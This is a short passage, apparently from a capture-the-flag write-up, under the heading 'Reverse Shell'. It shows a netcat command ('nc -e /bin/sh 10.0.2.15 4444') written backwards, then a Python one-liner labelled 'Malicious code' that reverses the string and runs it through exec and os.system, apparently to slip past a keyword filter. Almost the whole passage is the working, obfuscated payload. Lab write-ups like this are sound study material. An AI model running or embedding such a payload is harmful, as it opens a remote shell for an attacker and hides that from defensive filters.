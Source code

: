
## Reverse Shell

First i need to change my malicious code to reverse order

![image]( /assets/img/pylington/7.PNG)

```sh
4444 51.2.0.01 hs/nib/ e- cn
```

**Malicious code**

```python
exec(')"4444 51.2.0.01 hs/nib/ e- cn"(metsys.so ;so tropmi'[::-1])
```
